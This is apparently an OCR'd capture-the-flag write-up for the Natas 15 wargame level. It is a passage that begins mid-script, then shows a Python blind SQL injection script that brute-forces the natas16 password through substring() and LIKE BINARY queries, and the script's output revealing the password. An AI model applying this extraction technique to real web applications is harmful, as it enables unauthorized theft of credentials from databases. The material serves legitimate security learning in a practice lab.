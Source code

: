 ```python
        length = i
        print('password length:', i)
        break

characters = ascii_lowercase + digits
print('characters:', characters)

# brute-force char
password_lower = ''
for i in range(length):
    for char in characters:
        uri = '{}?username=natas16%22+and+substring(password,{},1)+=+%22{}'.format(url, i+1, char)
        r = requests.get(uri, auth=(auth_username,auth_password))
        if 'This user exists.' in r.text:
            password_lower += char
            break

# fix case-insentive
password = ''
for i, char in enumerate(password_lower):
    uri = '{}?username=natas16%22+and+substring(password,{},1)+LIKE+BINARY+%22{}'.format(url, i+1, char)
    r = requests.get(uri, auth=(auth_username,auth_password))
    if 'This user exists.' in r.text:
        password += char
    else:
        password += char.upper()
    print('password:', password)
```

```
python3 natas15.py

password length: 32
characters: abcdefghijklmnopqrstuvwxyz0123456789
password: W
password: Wa
password: WaI
password: WaIH
password: WaIHE
password: WaIHEa
password: WaIHEac
password: WaIHEacj
password: WaIHEacj6
password: WaIHEacj63
password: WaIHEacj63w
password: WaIHEacj63wn
password: WaIHEacj63wnN
password: WaIHEacj63wnNI
password: WaIHEacj63wnNIB
password: WaIHEacj63wnNIBR
password: WaIHEacj63wnNIBRO
password: WaIHEacj63wnNIBROH
password: WaIHEacj63wnNIBROHe
password: WaIHEacj63wnNIBROHeq
password: WaIHEacj63wnNIBROHeqi
password: WaIHEacj63wnNIBROHeqi3
password: WaIHEacj63wnNIBROHeqi3p
password: WaIHEacj63wnNIBROHeqi3p9
password: WaIHEacj63wnNIBROHeqi3p9t
password: WaIHEacj63wnNIBROHeqi3p9t0
password: WaIHEacj63wnNIBROHeqi3p9t0m
password: WaIHEacj63wnNIBROHeqi3p9t0m5
password: WaIHEacj63wnNIBROHeqi3p9t0m5n
```